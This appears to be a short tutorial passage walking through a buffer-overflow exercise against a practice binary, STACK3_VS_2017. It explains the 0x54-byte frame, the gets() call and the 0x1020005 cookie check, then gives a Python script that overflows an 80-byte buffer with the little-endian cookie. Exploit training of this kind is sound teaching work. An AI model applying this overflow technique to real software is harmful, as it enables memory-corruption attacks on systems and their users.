





In this third exercise **STACK3_VS_2017,**  0x54 (84) bytes are also reserved at the beginning of the function.

Again there is a MessageBox and a Printf

We rename the variables to **buffer** and **cookie.**

The **gets** function is passed a pointer to the beginning of the **buffer** variable.

****

So far everything is the same as the previous exercises. The only thing that changes is the value of the comparison.

The **cookie** is now compared  against **0x1020005**

In **little endian** that would be seen as 0x05 0x00 0x02 0x01

| import sys from subprocess import Popen, PIPE  buffer = b"A" \* 80 cookie = b"\\x05\\x00\\x02\\x01"  payload = buffer + cookie  p1 = Popen("STACK3_VS_2017.exe", stdin=PIPE) print ("PID: %s" % hex(p1.pid)) print ("Enter para continuar")  p1.communicate(payload) p1.wait() input() |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

****
